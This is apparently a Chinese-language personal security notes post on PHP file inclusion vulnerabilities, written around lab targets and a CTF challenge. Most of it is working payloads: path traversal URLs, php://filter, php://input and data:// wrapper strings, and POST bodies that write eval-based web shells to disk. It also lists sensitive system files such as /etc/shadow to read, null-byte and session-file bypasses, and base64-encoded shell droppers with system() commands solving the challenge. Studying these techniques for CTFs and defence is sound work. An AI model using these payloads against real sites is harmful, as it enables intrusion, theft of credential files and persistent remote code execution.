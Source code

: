 ```yaml
---
layout: post
title: File Include
subtitle: 文件包含漏洞
date: 2025-06-19 11:55
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: false
---
```

## 1. 文件包含伪协议

#### 1.1.1. 直接包含

```http
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../../\windows\system32\drivers\etc\hosts
http://pikachu.to/vul/dir/dir_list.php?title=../../../../../../windows/system32/drivers/etc/hosts
```

#### 1.1.2. file://

用于读取本地文件，必须使用绝对路径，php项目读取php文件时会执行其中代码，导致无法读取到源码。

```php
file:///etc/passwd
file://C:\Windows\System32\drivers\etc\hosts
file:///windows/system32/drivers/etc/hosts
```

#### 1.1.3. php://filter

读取指定资源，可以是本地也可以是远程资源，可指定编码类型对内容编码，在读取php文件时可防止其运行，从而读取源码。

```php
php://filter/ {operation}={filter_chain}/resource={source}
php://filter/read=convert.base64-encode/resource=http://www.baidu.com
php://filter/convert.base64-encode/resource=http://www.baidu.com
php://filter/resource=http://www.baidu.com
php://filter/resource=../index.php

operation: read write
filter-chain: convert.base64-encode convert.base64-decode
```

#### 1.1.4. php://input

用于读取原始的 POST 请求数据

```php
php://input

POST数据：
<?php eval($_POST['cmd']);?>
<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST["cmd"]);?>');?>
```

#### 1.1.5. data://

用于在 URL 中嵌入小块数据

```php
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
data://a/b,<?php phpinfo();?>
https://7cdbe539-f220-4021-ac93-fd10996d0f13.challenge.ctf.show
```

#### 1.1.6. zlib://

```php
compress.zlib://shell.php.gz
```

## 2. 敏感文件

```
/etc/shadow(存放密码)
/etc/gshadow(存放密码)
/etc/profile(系统环境)
/etc/group(组的数据库文件)
/etc/my.conf(MYSQL配置信息)
/usr/etc/php.ini(PHP配置信息)
/etc/crontab(crontab配置文件)
/etc/passwd(系统用户数据库文件)
/etc/httpd/conf/httpd.conf(Apache配置信息)
```

## 3. 文件包含绕过

1. %00截断

```
?filename=file:///var/log/httpd/access_log%00
```

1. %23 %00 截断
2. session文件包含
	session文件保存位置：`/var/lib/php/session`，文件名 `sess_phpsessid`

![image.png](https://img.ghostliner.top/MkmNDz.png)
![image.png](https://img.ghostliner.top/ifzPF6.png)

## 4. CTF 实战

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-17 02:27:25
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 */
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

代码审计：

- 禁止"php"不能用 `<?php` 可用加密
- 禁止"-"不能用 `php://filter/read=convert.base64-encode`

#### 4.1.1. 方法一

使用`data://a/b;base64,<base64 code>`构造不含"+"的base64编码

_PS. base64末尾等号可直接删除，不影响解码_

```php
<?php
fputs(fopen('shell.php','w'),'<?php phpinfo(); ?>');
?>#1
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgcGhwaW5mbygpOyA/PicpOwo/PiMx
```

```php
<?php
fputs(fopen('shell.php','w'),'<?php eval($_POST["code"]);?>');
?>#
# base64:
# PD9waHAKZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbHGNvZGUdXSk7Pz4nKTsKPz4j
```

![image.png](https://img.ghostliner.top/eB1pGC.png)

#### 4.1.2. 方法二

```php
<?php system("ls"); ?>
<?php system("cat fl0g.php"); ?>
```
